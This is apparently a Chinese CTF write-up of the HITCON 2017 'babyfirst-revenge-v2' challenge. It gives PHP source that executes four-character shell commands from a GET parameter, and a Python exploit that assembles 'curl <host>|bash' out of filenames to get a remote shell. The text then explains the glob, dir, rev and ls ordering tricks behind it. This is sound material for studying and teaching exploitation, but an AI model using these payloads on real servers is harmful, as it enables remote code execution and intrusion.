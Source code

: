 分享自制Dockerfile：[Github](https://github.com/Pr0phet/hitcon2017Dockerfile/tree/master/hitcon-ctf-2017/babyfirst-revenge-v2) 

这题相比于上一题 条件更加的苛刻了 只允许执行最多四个字符
源码如下：
```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

那我们之前的生成 ls -t>g 就不能按照最后一步 ls>>_ 来执行了

但是我们能不能还是按照 生成命令段文件 最后通过ls来拼接命令执行呢？

这里还是以分析Orange大大的exp为主：

Exp:
```python
import requests
from time import sleep
from urllib import quote

payload = [
    # generate "g> ht- sl" to file "v"
    '>dir', 
    '>sl', 
    '>g\>',
    '>ht-',
    '*>v',

    # reverse file "v" to file "x", content "ls -th >g"
    '>rev',
    '*v>x',

    # generate "curl orange.tw|python;"
    # generate "curl 10.188.2.20|bash"
    '>\;\\', 
    '>sh\\', 
    '>ba\\', 
    '>\|\\', 
    '>20\\', 
    '>2.\\',
    '>8.\\', 
    '>18\\', 
    '>0.\\', 
    '>1\\', 
    '>\ \\', 
    '>rl\\', 
    '>cu\\', 

    # got shell
    'sh x', 
    'sh g', 
]


r = requests.get('http://10.188.2.20:17528/?reset=1')
for i in payload:
    assert len(i) <= 4
    r = requests.get('http://10.188.2.20:17528/?cmd=' + quote(i) )
    print i
    sleep(0.1)
```

首先生成 ls -t >g的命令文件，这里orange大大的方法真的巧妙到极致了！

- 先了解一个小trick，``*``在Linux中代表的是0或多个字符，比如``ls *.txt`` 就表示了列出本目录下所有后缀名为txt的文件，那假如单独执行一个``*``会是什么效果？
在本地尝试了一下 直接输入一个星号的话Linux首先会把当前目录下的所有文件按字典序排序一次，然后将排序的结果当作命令执行，如下：
![🌰](http://upload-images.jianshu.io/upload_images/6949366-fdb5efeab24a2a52.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
那下图的也可以理解了：
![🌰](http://upload-images.jianshu.io/upload_images/6949366-bae9e5b0b49d58dc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
因为*o匹配了 echo 和o，而他们的排序是echo在前，o在后 所以就会执行命令 echo o


- 再认识一下dir 这个命令在大多数系统中都是ls 的alias 但是有些系统中则没有
为什么我们要用这个命令呢 因为之前说过ls 是alphabetically （字典序）那么dir就会排在ls结果的最前面 所以我们*之后dir也是排在最前面 也就充当了拼接文件名的角色

- 大概思路就出来了 我们要构造ls -t>g的命令片段成几个文件名 但是其命令段的首字母不能在d的前面，也就是不能是 **特殊符号 数字 abc** 而且每一段不能超过两个字符，因为其余两个字符要分配给>和\\，如果你尝试一下构造 正常来说是没办法构造出无特殊符号打头的文件名 他总会排到dir的前面，然后更巧妙的地方来了 我们可以生成逆序的命令拼接起来，最后使用rev命令反向文件中的字符串！

- 根据之前我们对\*的认识，我们可以将倒序的命令输入到v文件中，因为\*v能匹配rev 和 v，也就是执行了 rev v命令，然后再将倒序之后的结果>x文件中，这样\*v>x刚刚好是四个字符!

- 但是看到这里 你可能还会在尝试过程中发现问题，那就是逆序之后的命令段应该是 [dir,>sl,>g\>,>t-] 那么这里会有一个问题 因为t的字母序比s后，所以ls之后应该是这样的：
![Oops](http://upload-images.jianshu.io/upload_images/6949366-0891df7a20a05ed6.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
解决方法是加多一个参数h，在ls中h是用作格式化l参数之后的存储量大小 使之更适合人类方式阅读 但是如果ls只带参数h的不带参数l话那这个参数是毫无意义的 如图：
![🌰](http://upload-images.jianshu.io/upload_images/6949366-fc6718782a9a6010.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
所以我们将>t-改成>ht-就能解决字典序的问题了


- 接下来的问题就回到了babyfirst-revenge的情况了



